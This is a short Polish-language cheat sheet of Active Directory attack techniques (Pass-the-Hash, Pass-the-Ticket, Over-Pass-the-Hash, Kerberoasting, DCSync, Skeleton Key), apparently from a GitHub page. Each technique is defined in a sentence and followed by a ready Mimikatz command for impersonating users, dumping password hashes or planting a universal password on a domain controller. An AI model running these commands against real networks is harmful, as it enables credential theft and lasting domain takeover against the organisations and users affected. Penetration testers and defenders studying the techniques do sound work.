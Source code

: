 ### Pass-the-Hash

Pass-the-Hash to technika, która pozwala na uwierzytelnienie się jako użytkownik bez znajomości jego hasła, używając jedynie wartości hash NTLM.

```shell
mimikatz # sekurlsa::pth /user:Administrator /domain:example.com /ntlm:<hash> /run:cmd.exe
```

### Pass-the-Ticket

Pass-the-Ticket to technika, która pozwala na uwierzytelnienie się jako użytkownik, używając biletów Kerberos.

```shell
mimikatz # kerberos::ptt <ticket.kirbi>
```

### Over-Pass-the-Hash (Pass-the-Key)

Over-Pass-the-Hash to technika, która pozwala na uwierzytelnienie się jako użytkownik, używając klucza Kerberos.

```shell
mimikatz # sekurlsa::pth /user:Administrator /domain:example.com /aes256:<key> /run:cmd.exe
```

### Kerberoasting

Kerberoasting to technika, która pozwala na uzyskanie hashy haseł kont usługowych z biletów Kerberos.

```shell
mimikatz # kerberos::list /export
```

### DCSync

DCSync to technika, która pozwala na symulowanie zachowania kontrolera domeny w celu uzyskania hashy haseł użytkowników.

```shell
mimikatz # lsadump::dcsync /user:Administrator
```

### Skeleton Key

Skeleton Key to technika, która pozwala na wstrzyknięcie uniwersalnego hasła do kontrolera domeny, umożliwiając uwierzytelnienie się jako dowolny użytkownik.

```shell
mimikatz # misc::skeleton
```

### Mimikatz

Mimikatz to narzędzie do uzyskiwania haseł, hashy, biletów i kluczy z pamięci systemu Windows.
